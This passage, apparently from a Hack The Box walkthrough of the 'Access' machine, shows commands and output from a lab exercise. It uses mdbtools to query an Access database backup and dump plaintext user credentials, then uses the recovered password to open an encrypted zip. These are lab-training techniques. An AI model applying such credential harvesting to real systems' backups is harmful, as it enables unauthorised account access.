 ```
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
10870 bytes received in 0.05 secs (200.3631 kB/s)
```

### Finding a password in the Access database

We can use mdbtools to view the Access database file:

```
root@darkisland:~/hackthebox/Machines/Access# mdb-tables -1 backup.mdb | grep -i auth
auth_group_permissions
auth_message
auth_permission
auth_user
auth_user_groups
auth_user_user_permissions
auth_group
AUTHDEVICE
```

We can issue SQL queries with the `mdb-sql` tool and look for credentials in the `auth_user` table:

```
root@darkisland:~/hackthebox/Machines/Access# mdb-sql -p backup.mdb 
1 => select * from auth_user
2 => go

id	username	password	Status	last_login	RoleID	Remark
25	admin	admin	1	08/23/18 21:11:47	26	
27	engineer	access4u@security	1	08/23/18 21:13:36	26	
28	backup_admin	admin	1	08/23/18 21:14:02	26	
3 Rows retrieved
```

Found the following credentials:
 - `engineer` / `access4u@security`

### Finding credentials in PST file

Unzipping the encrypted zip file with password `access4u@security`:

```
root@darkisland:~/hackthebox/Machines/Access# 7z e access.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i7-2600K CPU @ 3.40GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: access.zip
--
Path = access.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok         

Size:       271360
Compressed: 10870
```
